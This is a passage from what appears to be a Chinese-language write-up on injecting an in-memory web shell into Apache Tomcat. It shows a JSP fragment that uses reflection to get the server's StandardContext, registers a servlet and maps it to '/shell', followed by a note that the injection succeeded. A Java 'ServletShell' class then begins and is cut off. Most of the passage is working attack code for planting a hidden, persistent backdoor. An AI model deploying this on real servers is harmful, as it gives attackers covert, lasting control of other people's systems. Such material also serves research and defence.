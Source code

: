 ```jsp
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/shell", name);
%>
```

注入成功

![image-20221129150021261](images/image-20221129150021261.png)

java版本:

```java
import org.apache.catalina.Wrapper;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Scanner;

public class ServletShell implements Servlet {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        Field reqF = null;
```